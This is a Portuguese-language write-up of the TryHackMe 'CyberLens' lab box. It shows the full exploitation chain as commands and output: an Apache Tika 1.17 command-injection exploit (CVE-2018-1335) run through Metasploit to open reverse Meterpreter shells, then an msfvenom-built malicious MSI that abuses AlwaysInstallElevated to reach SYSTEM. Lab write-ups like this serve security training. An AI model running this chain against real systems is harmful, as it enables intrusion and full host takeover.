

<div align="center">

# 🚀 TryHackMe – **CyberLens** (Writeup)

*“Se você enxerga os metadados, você enxerga o alvo.”* 🕶️🧠

<p align="center">
  
</p>

</div>

---

<div align="center">

## 📌 Informações da Máquina

- **Sala:** [CyberLens](https://tryhackme.com/room/cyberlensp6)
- **Categoria:** Web | Windows
- **Dificuldade:** 🟢 Easy
- **Tempo Estimado:** ⏱️ 120 min
- **Status:** ✅ Rooted (user + admin)

</div>

---

<div align="center">

## 🗺️ Roadmap da Exploração

</div>



---

# 🔎 Reconhecimento

### Alvos e teste rápido de SO via TTL

```bash
ALVO="10.201.54.143"; LOCAL="10.201.65.120"

ping -c 3 $ALVO | grep -o "ttl=[0-9]*"
# ttl=128
# ttl=128
# ttl=128
```

**Leitura:** TTL≈128 → **Windows** muito provável (Linux costuma expor \~64). Ótimo indício inicial.

### Resolver hostname local

```bash
echo "$ALVO cyberlens.thm" | sudo tee -a /etc/hosts
cat /etc/hosts | tail -3
# ...
# 10.201.54.143 cyberlens.thm
```

### Enumeração com Nmap (serviços principais)

```bash
nmap -sC -sV cyberlens.thm -oN svcnmap.txt
```

**Achados relevantes:**

* **80/tcp** → Apache 2.4.57 (Win64) – página “CyberLens”
* **3389/tcp** → RDP (Windows Server 2019, Build 17763)
* **61777/tcp** → porta aberta **suspeita**
* 135/139/445/5985/47001 + altas dinâmicas (Windows padrão)

Varredura total:

```bash
nmap -p- cyberlens.thm -oN allnmap.txt
# confirma 61777/tcp aberto
```

### Enumeração Web

```bash
gobuster dir -u http://cyberlens.thm -w /usr/share/wordlists/dirb/big.txt -t 40
# /images, /Images, /css, /js … (conteúdo estático, nada útil)
```

**Pista chave:** no JS do site havia chamada **PUT** para um endpoint de **metadados**.
Acessando `http://cyberlens.thm:61777/` retorna o banner e endpoints do **Apache Tika Server 1.17**.

---

# 🧨 Vulnerabilidade & Exploit (Foothold)

**Apache Tika 1.17** é vulnerável a **Command Injection** via parsers — **CVE-2018-1335**.
Módulo no Metasploit:

```bash
search apache tika 1.17
# exploit/windows/http/apache_tika_jp2_jscript
```

### Configuração do exploit

```bash
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
run
```

**Resultado esperado:**

```
[*] The target is vulnerable.
[*] Sending stage ...
[*] Meterpreter session 1 opened (10.201.65.120:1234 -> 10.201.54.143:49848)
```

### Pós-exploração inicial (user)

```bash
sessions -i 1
pwd
cd C:\Users\CyberLens\Desktop
ls
cat user.txt
# THM{*****}
```

### Checagem de arquitetura e privilégios

```bash
getuid
# CYBERLENS\CyberLens
sysinfo
# Windows Server 2019 (17763) - Meterpreter: x86/windows
getprivs
# SeChangeNotifyPrivilege, SeIncreaseWorkingSetPrivilege
```

👉 Estávamos em **x86** num host **x64**, o que limita módulos/estabilidade.
**Ajuste:** reexplorar com payload **x64** (ou migrar para processo x64).

---

# 🛠️ Reexploit x64 (recomendado)

Para nascer x64 direto:

```bash
# mate sessões antigas
sessions -K

use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

sysinfo
# Meterpreter : x64/windows
```

---

# ⬆️ Privilege Escalation (Windows)

## 1) Verificar **AlwaysInstallElevated**

Quando **HKLM** e **HKCU** têm `AlwaysInstallElevated=1`, **qualquer MSI** instala como **SYSTEM**.

No **cmd** do alvo:

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**Saída:**

```
... AlwaysInstallElevated    REG_DWORD    0x1
... AlwaysInstallElevated    REG_DWORD    0x1
```

> ✔️ Vulnerabilidade confirmada: **Escalada via MSI malicioso**.

## 2) Gerar MSI malicioso (no atacante)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.201.65.120 LPORT=4445 -f msi -o elev.msi
```

## 3) Abrir handler para o payload

No **msfconsole** (outro terminal):

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.201.65.120
set LPORT 4445
run
```

## 4) Subir e executar o MSI no alvo

Na sessão user atual:

```bash
upload elev.msi C:\\Windows\\Temp\\elev.msi
shell
msiexec /quiet /qn /i C:\Windows\Temp\elev.msi
```

**Handler recebe a nova sessão:**

```
[*] Meterpreter session N opened (...:4445 -> 10.201.54.143:XXXXX)
```

Confirme **SYSTEM**:

```bash
sessions -i N
getuid
# NT AUTHORITY\SYSTEM
```

---

# 👑 Admin Flag

Local padrão idem ao user.txt:

```bash
cd C:\\Users\\Administrator\\Desktop
ls
cat admin.txt
# THM{*****}
```

---

# 🧰 Comandos úteis (resumo rápido)

**Recon inicial**

```bash
ping -c 3 $ALVO | grep -o "ttl=[0-9]*"
nmap -sC -sV cyberlens.thm -oN svcnmap.txt
nmap -p-    cyberlens.thm -oN allnmap.txt
gobuster dir -u http://cyberlens.thm -w /usr/share/wordlists/dirb/big.txt -t 40
```

**Tika endpoints (referência)**

* `PUT /meta` (JSON/CSV) – metadados
* `PUT /tika` – extrai texto/HTML/XML
* `PUT /rmeta` – metadados **recursivos** (ZIP/DOCX/PDF)
  *(No nosso caso usamos o módulo MSF que automatiza a exploração do parser vulnerável.)*

**Exploit (Metasploit)**

```bash
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
# para x64:
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

**Privesc – AlwaysInstallElevated**

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**MSI malicioso + handler**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.201.65.120 LPORT=4445 -f msi -o elev.msi

# msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.201.65.120
set LPORT 4445
run
```

**Execução no alvo**

```bash
upload elev.msi C:\\Windows\\Temp\\elev.msi
shell
msiexec /quiet /qn /i C:\Windows\Temp\elev.msi
```

---

# ✅ Lições & Boas Práticas

* **Fingerprint passivo**: TTL já entrega Windows vs Linux rapidamente.
* **Mapeamento local**: `/etc/hosts` acelera resoluções durante o lab.
* **Enum completa**: portas altas + serviços Windows (RDP/WinRM) dão contexto do SO.
* **Tika 1.17**: endpoints expostos → **CVE-2018-1335** é “golden path” para foothold.
* **Arquitetura importa**: prefira **payload x64** em Windows x64; evita limitações.
* **AlwaysInstallElevated**: se **HKCU** e **HKLM** = `1`, MSI instala como **SYSTEM**.
* **Higiene**: após a prova, **remova** artefatos (ex.: `C:\Windows\Temp\elev.msi`).

---

<div align="center">

**Flags obtidas**

* 🧑 **User:** `THM{*****}`
* 👑 **Admin:** `THM{*****}`

</div>

---

<div align="center">


</div>
